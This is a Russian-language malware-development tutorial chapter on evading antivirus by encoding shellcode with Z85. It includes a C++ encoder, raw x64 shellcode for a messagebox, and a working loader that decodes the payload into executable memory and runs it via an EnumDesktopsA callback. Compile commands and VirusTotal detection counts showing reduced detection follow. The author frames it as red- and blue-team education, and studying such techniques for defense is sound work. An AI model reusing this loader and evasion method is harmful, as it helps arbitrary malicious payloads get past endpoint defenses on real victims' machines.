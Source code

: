 \newpage
\subsection{61. Обход антивирусной защиты - часть 8. Кодирование полезной нагрузки с помощью алгоритма Z85. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![av-evasion](./images/64/2022-07-31_16-39.png){width="80%"}

Эта статья является результатом моего собственного исследования интересного трюка: кодирование полезной нагрузки с помощью алгоритма Z85.

Поскольку методы шифрования полезной нагрузки с помощью алгоритмов [AES](https://github.com/cocomelonc/peekaboo/tree/aes) и [XOR](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) и кодирования (например, с помощью алгоритма base64) были достаточно хорошо изучены участниками Blue Team, возник вопрос о том, чтобы попытаться скрыть полезную нагрузку нестандартным способом.

### Z85

*Ascii85*, также называемый *Base85*, представляет собой форму двоично-текстового кодирования, используемую для передачи произвольных двоичных данных по каналам, которые были разработаны для передачи только читаемого человеком текста на английском языке. *Z85* - формат для представления двоичных данных в виде печатного текста. [Z85](https://rfc.zeromq.org/spec/32/) - это производная от существующих механизмов кодирования Ascii85, модифицированная для лучшего удобства использования, особенно для использования в исходном коде.

### практический пример

Давайте рассмотрим практический пример. Сначала закодируем нашу полезную нагрузку через Z85 (`encode.cpp`):

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

char* encode(const char* src, size_t len) {
   // allocate output buffer (+1 for null terminating char)
   char* dest = (char*)malloc(Z85_encode_with_padding_bound(len) + 1);

   if (len == 0) {
      dest[0] = '\0'; // write null terminating char
      return dest;
   }

   // encode the input buffer, padding it if necessary
   len = Z85_encode_with_padding(src, dest, len);

   if (len == 0) { // something went wrong
      free(dest);
      return NULL;
   }

   dest[len] = '\0'; // write null terminating char

   return dest;
}

unsigned char payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {
   char* str = encode((const char*)payload, sizeof(payload));
   if (str) {
      printf("%s\n", str);
      free(str);
   }
   return 0;
}
```

Затем скомпилируем его:

```bash
x86_64-w64-mingw32-g++ -O2 encode.cpp -o encode.exe \
-I/usr/share/mingw-w64/include/ \
-I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![av-evasion](./images/64/2022-07-31_16-54.png){width="80%"}

и запустим:

```powershell
.\encode.exe
```

![av-evasion](./images/64/2022-07-31_17-17.png){width="80%"}

Как обычно, для простоты я использовал полезную нагрузку `meow-meow` messagebox:

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

Затем, на следующем этапе мы помещаем эту закодированную полезную нагрузку в нашу "вредоносную программу". Я взял технику запуска полезной нагрузки из одной из [предыдущих](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) статей:

```cpp
/*
* hack.cpp
* Z85 encode payload
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2022/07/30/malware-av-evasion-8.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

int main(int argc, char* argv[]) {
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  char e_my_payload[] = "2@78z1[C&K*>*fqf06%EFp/pd>nhnL7nq*wNk1HPf7^pGGqxOd]I/"
  "ISTndSg4n>?4Znhm]YjyJQsefEl{:QHJp.q:&Wk#x*pI=7VYI:xJ%0"
  "NK2*Fqsg907.*VBz<XJ=}(]:neKJUI:eyR0NP>inDl^}l5NNQncdpo"
  "g08%vZ]P&r:QHJp.8Qv}[JGRGoE6)jiNJ02suYchkQn]4=$kEcIWScum2KqInDEg4l5L"
  "(4ncd76sv34}sZ19[l0lGSnq3mKk#N:vsv37[k1HOA>$g{P%6njp.2KDn06S@kL]"
  "oV606T8oG^u:107X&^laPHqrTnVPYwKXV3phn2Ma-:*!"
  "KUthc{dYY3v@3iBP]xE6ln2a09IQA*w/X$wP8=AzdNTfaPKVie?QD[00000";
  char d_my_payload[314] = {};
  size_t d = Z85_decode_with_padding(e_my_payload, d_my_payload, strlen(e_my_payload));
  LPVOID mem = VirtualAlloc(NULL, sizeof(d_my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, d_my_payload, sizeof(d_my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, 0);
  return 0;
}
```

Большое спасибо [@artemkin](https://github.com/artemkin/z85) за реально работающую реализацию C/C++, а также кодирование/декодирование с заполнением.

### демо

Давайте посмотрим все в действии. Скомпилируем нашу "вредоносную программу":

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](./images/64/2022-07-31_17-21.png){width="80%"}     

и запускаем на машине нашей жертвы:

```powershell
.\hack.exe
```

![av-evasion](./images/64/2022-07-31_17-32.png){width="80%"}

Как видите, все работает отлично :)

Давайте загрузим `hack.exe` на VirusTotal:

![av-evasion](./images/64/2022-07-31_17-34.png){width="80%"}

**Итак, 14 из 70 антивирусных движков определяют наш файл как вредоносный.**

[https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection](https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection)    

если вы помните, эта техника без кодирования показала результат **16 из 66**:

![av-evasion](./images/60/2022-06-27_14-37.png){width="80%"}

[https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection](https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection)

**Мы уменьшили количество антивирусных движков, которые обнаруживают наше вредоносное ПО, с 16 до 14**!

Поэтому можно предположить, что уклонение работает.

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Z85](https://rfc.zeromq.org/spec/32/)    
[https://github.com/artemkin/z85](https://github.com/artemkin/z85)    
[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-07-29-malware-av-evasion-8)      
